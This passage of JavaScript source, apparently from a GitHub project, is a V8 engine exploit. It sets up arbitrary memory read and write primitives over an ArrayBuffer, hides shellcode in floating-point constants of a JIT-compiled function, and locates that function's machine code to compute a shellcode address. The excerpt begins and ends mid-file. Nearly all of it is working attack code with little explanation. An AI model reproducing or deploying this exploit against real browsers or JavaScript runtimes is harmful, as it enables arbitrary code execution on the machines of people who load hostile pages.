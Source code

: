 ```js
}

const buf = new ArrayBuffer(10240000);
const bufView = new DataView(buf);
const bufAddr = offsetof(buf);

function reverseBytes(val) {
    let hex = val.toString(16);
    if (hex.length % 2 !== 0) {
        hex = "0" + hex;
    }
    const bytes = [];
    for (let i = 0; i < hex.length; i += 2) {
        bytes.push(hex.slice(i, i + 2));
    } 
    bytes.reverse();
    return BigInt("0x" + bytes.join(""));
}

function setupRW(addr) {
    heapArbWrite(bufAddr + 0x24n, addr);
}

function arbRead64(addr) {
    setupRW(addr);
    return reverseBytes(bufView.getBigUint64(0));
}

function arbWrite64(addr, value, index = 0) {
    setupRW(addr);
    bufView.setBigUint64(index, BigInt(value));
}

const exploit = () => {
    return [
        1.95538254221075331056310651818E-246,
        1.95606125582421466942709801013E-246,
        1.99957147195425773436923756715E-246,
        1.95337673326740932133292175341E-246,
        2.63486047652296056448306022844E-284
    ];
}

for (let i = 0; i < 100000; i += 1) {
    exploit(0);
}

// %PrepareFunctionForOptimization(exploit);
// exploit();
// %OptimizeFunctionOnNextCall(exploit);
// exploit();
// %DebugPrint(exploit);

const exploitAddr = offsetof(exploit);
console.log(`exploit function at 0x${exploitAddr.toString(16)}`);

const exploitCodeAddr = (heapArbRead(exploitAddr + 0x8n) & 0xffffffff00000000n) >> 32n;
console.log(`exploit->code at 0x${exploitCodeAddr.toString(16)}`);

const exploitCodeInstrAddr = heapArbRead(exploitCodeAddr + 0x14n);
console.log(`exploit->code at 0x${exploitCodeInstrAddr.toString(16)}`);

const shellcodeAddr = exploitCodeInstrAddr + 0x5cn;
```